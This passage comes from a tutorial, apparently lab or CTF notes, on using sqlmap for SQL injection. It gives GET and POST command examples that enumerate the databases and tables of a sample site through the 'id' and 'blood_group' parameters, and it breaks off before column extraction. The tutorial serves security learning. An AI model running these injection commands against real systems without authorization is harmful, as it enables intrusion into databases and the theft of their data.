 Now that we've seen some of the options we can use with sqlmap, let’s jump into the examples using both GET and POST Method based requests.

  
**Simple HTTP GET Based Test**  
  
`sqlmap -u https://testsite.com/page.php?id=7 --dbs`  

Here we have used two flags: -u to state the vulnerable URL and --dbs to enumerate the database

**Simple HTTP POST Based Test**  

First, we need to identify the vulnerable POST request and save it. In order to save the request, Right Click on the request, select 'Copy to file', and save it to a directory. You could also copy the whole request and save it to a text file as well.

![[Pasted image 20240710081148.png]]

You’ll notice in the request above, we have a POST parameter 'blood_group' which could a vulnerable parameter.

![[Pasted image 20240710081234.png]]

Now that we’ve identified a potentially vulnerable parameter, let’s jump into the sqlmap and use the following command:  
  
`sqlmap -r req.txt -p blood_group --dbs`  

`sqlmap -r <request_file> -p <vulnerable_parameter> --dbs`

  

Here we have used two flags: -r to read the file, -p to supply the vulnerable parameter, and --dbs to enumerate the database.

```php
sqlmap -r req.txt -p blood_group --dbs
```

Now that we have the databases, let's extract tables from the database **blood**.

**Using GET based Method**  
  
`sqlmap -u https://testsite.com/page.php?id=7 -D blood --tables`

**`sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --tables`**  

**Using POST based Method**

`sqlmap -r req.txt -p blood_group -D blood --tables`

**`sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> --tables`**

Once we run these commands, we should get the tables.

```php
sqlmap -r req.txt -p blood_group -D blood --tables
```

Once we have available tables, now let’s gather the columns from the table blood_db.  
  
**Using GET based Method**
